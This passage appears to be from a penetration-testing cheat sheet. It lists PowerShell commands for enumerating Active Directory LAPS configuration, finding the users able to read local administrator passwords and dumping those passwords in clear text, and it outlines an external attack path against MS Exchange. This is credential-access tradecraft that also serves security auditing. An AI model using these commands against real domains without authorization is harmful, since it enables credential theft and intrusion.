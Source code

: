 ````
Get-DomainOU -GPLink "<Distinguishedname from GET-DOMAINGPO>" | select name, distinguishedname
Get-DomainComputer -Searchbase "LDAP://<distinguishedname>" -Properties Distinguishedname
```

#### Check all computers without LAPS
```
Get-DomainComputer | Where-object -property ms-Mcs-AdmPwdExpirationTime -like $null | select-object samaccountname
```

#### Check the LAPS configuration
- https://github.com/PowerShell/GPRegistryPolicy
- Password complexity, password length, password expiration, Acccount managing LAPS
- AdmPwdEnabled 1 = local administrator password is managed
- Passwordcomplexity 1 = large letters, 2 = large + small letters, 3 = Large + small + numbers, 4 = large + small + numbers + specials
```
Parse-PolFile "<GPCFILESYSPATH FROM GET-DOMAINGPO>\Machine\Registry.pol" | select ValueName, ValueData
```

#### Find all users who can read passwords in clear text machines in OU's
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}

Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | Select-Object ObjectDN, IdentityName
```

```
Import-Module AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

#### If retured groups, get the users:
```
$LAPSAdmins = Get-DomainGroup <GROUP> | Get-DomainGroupMember -Recursive
$LAPSAdmins += Get-DomainGroup <GROUP> | Get-DomainGroupMember -Recursive
$LAPSAdmins | select Name, distinguishedName | sort name -Unique | fortmat-table -auto
```

#### Read clear-text passwords:
```
Get-ADObject -SamAccountName <MACHINE NAME$> | select -ExpandProperty ms-mcs-admpwd
Get-DomainComputer | Where-Object -Property ms-mcs-admpwd | Select-Object samaccountname, ms-mcs-admpwd

#LAPS Powershell cmdlet
Get-AdmPwdPassword -ComputerName <MACHINE NAME>
```

## MS Exchange
- Outlook rules and Outlook Forms are synced to all clients with the mailbox active.
- Outlook Forms VBSCript engine is different then the VBA Macro script engine (So disabling macro's wont defend against it)

### Attacking externally
- Attah path could be: Reconnaissance --> OWA Discovery --> Internal Domain Discovery --> Naming scheme fuzzing --> Username enumeration --> Password discovery --> GAL Extraction --> More Password discovery --> 2fa bypass --> Remote Access through VPN/RDP / Malicious Outlook Rules or Forms / Internal Phishing
````